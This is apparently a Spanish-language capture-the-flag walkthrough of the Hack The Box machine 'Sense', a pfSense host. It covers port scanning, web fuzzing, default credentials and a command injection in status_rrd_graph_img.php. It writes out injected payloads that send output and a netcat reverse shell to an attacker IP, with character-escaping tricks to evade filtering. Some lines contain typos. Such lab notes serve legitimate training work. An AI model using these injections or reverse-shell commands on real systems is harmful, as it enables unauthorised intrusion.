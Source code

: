 # Sense

IP: 10.10.10.60

# Ping y whichSyhstem.py

`ping -c 1 10.10.10.60`

`whichSystem.py 10.10.10.60`

## Scanning

`nmap -p- --open -T5 -v -n 10.10.10.60 -oN allPorts` --> muy lento

`nmap -sS --min-rate 5000 -Pn -vvv -n 10.10.10.60 -p- -oN allPorts`

`nmap -sC -sV -p80,443 10.10.10.60 -oN targetedPorts`

`nmap -p80,443 --script http-enum 10.10.10.60 -oN webScan`

## Vamos a la web

- Vemos que es un PfSense --> panel de login
- Buscamos credenciales por defecto de pfsense
- CTRL+U
- Wappalyzer
- `whatweb http://10.10.10.60`
- `wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ`
- Añadimos -L para los redirect

`cd content`

`nano extensions.txt`
~~~
php
html
txt
~~~

`wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt https://10.10.10.60/FUZZ.FUZ2Z`

`cat /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | grep -E -i 'user|pass|cred|key' > routes.txt`

`wfuzz -c --hc=404 -w routes.txt -w extensions.txt https://10.10.10.60/FUZZ.FUZ2Z`

Encontramos system-users.txt --> user: Rohit pass: company default

## Dentro Pfsense
~~~
searchsploit pfsense 2.1.3
searchsploit pfsense 2.X
searchsploit pfsense 2
~~~
- Encontramos exploit graph_img
- 10.10.10.60/status_rrd_graph_img.php?database=queues;sleep 10

- `nc -nlvp 4646`
- 10.10.10.60/status_rrd_graph_img.php?database=queues;whoami | nc 10.10.14.23 4646

## Burpsite

- Target --> scope --> add
- Proxy --> options --> only this target
- `nc -nlvp 4646`
- `man ascii`
- "-" --> no le gusta asi que usamos '\055'
- guion=$(print+'\055');echo+$guion|nc+10.10.14.23+4646
- "&" --> '\046'
- echo "rm /rmp/f;mkfifo /tmp/f;cat /tmp/f\bin/sh -i 2>&1|nc 10.10.14.23 4646 >/tmp/f" | tr ' ' '+' | sed 's/\//${HOME}/g'
- echo "rm /rmp/f;mkfifo /tmp/f;cat /tmp/f\bin/sh -i 2>&1|nc 10.10.14.23 4646 >/tmp/f" | tr ' ' '+' | sed 's/\//${HOME}/g' \ sed 's/-/${guion}/g' | sed 's/&/${amperson}/g' 

`find . -name user.txt && find . -name root.txt`




